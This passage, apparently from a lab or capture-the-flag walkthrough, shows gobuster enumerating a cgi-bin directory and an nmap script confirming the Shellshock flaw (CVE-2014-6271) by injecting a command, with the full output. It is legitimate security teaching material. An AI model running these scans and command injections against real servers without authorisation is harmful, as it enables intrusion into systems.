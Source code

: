 Since the website has the cgi-bin directory and there is not too much to do with the rest of the asset, let's try shellshock (hint in the machine name).

```bash
gobuster dir -u "http://10.129.228.39/cgi-bin" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -t 20 -x sh
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.228.39/cgi-bin
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Extensions:              sh
[+] Timeout:                 10s
===============================================================
2022/12/03 16:32:50 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]
```

We can use the nmap script to check if it is vulnerable:

```bash
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.129.228.39

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at 
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.18 (Ubuntu) Server at 10.129.228.39 Port 80</address>
|   </body></html>
|   
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://seclists.org/oss-sec/2014/q3/685
```